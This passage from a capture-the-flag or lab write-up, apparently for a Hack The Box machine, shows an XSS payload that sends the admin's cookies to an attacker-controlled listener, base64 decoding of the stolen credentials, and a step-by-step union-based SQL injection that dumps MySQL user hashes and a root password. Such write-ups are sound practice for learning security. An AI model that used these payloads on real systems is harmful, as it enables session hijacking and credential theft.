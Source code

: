 The victim machine requested a connection to my machine, confirming the XSS vulnerabilitie
So, I'll create a .js script  to try to steel the admin's cookies,taking advantage of this vulnerabilitie

``` javascript
#create pwn.js
var request = new XMLHttpRequest();
request.open('GET', 'http://10.10.14.3/?cookie=' + document.cookie, true);
request.send();

#On the website form
<script src="http://10.10.14.2/pwn.js"></script>

#Listening
❯ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [17/Sep/2023 23:54:00] "GET /pwn.js HTTP/1.1" 200 -
10.10.10.154 - - [17/Sep/2023 23:54:00] "GET /?cookie=username=YWRtaW4=;%20password=SG9wZWxlc3Nyb21hbnRpYw==;%20id=1 HTTP/1.1" 200 -
❯ echo "YWRtaW4=" | base64 -d; echo
admin
❯ echo "SG9wZWxlc3Nyb21hbnRpYw==" | base64 -d; echo
Hopelessromantic

```

This way I obtained the cookies from the "admin" user. These cookies have weak encryption, wich I can decode with base64 to obtain the credentials in plain text.
Now that I can log in as Admin in the web application, I found a "Search Users" function  vulnerable to sql injection.

``` mysql
1' (It's vulnerable)
1' or 1=1-- - (confirm the vulnerability)
1' order by 100-- - (to see what error shows)
1' order by 3-- - (there are 3 columns)
1' union select 1,2,3-- - (this shows 1 and 2 -> this is the camp that I use to inject queries)
1' union select 1,databases(),3-- - (the database in use)
1' union select 1,version(),3-- - (the MariaDB version)
1' union select 1,schema_name,3 from information_schema.schemata-- - (list existing dtabases)
1' union select 1,table_name,3 from information_schema.tables where table_schema="mysql"-- - (enumerate tables from database mysql)
1' union select 1,column_name,3 from information_schema.columns where table_schema="mysql" and table_name="user"-- - (enumerate columns from database mysql)
1' union select 1,group_concat(User,":",Password),3 from mysql.user-- - (enumerate existing users ands passwords)
root:*F435725A173757E57BD36B09048B8B610FF4D0C4,root:*F435725A173757E57BD36B09048B8B610FF4D0C4,root:*F435725A173757E57BD36B09048B8B610FF4D0C4,:,pma:
```

I retrieved data from the databases; including credentials for the 'root' user. However, these credentials didn't immediately help me.

```
credentials -> root:Welkom1!
```
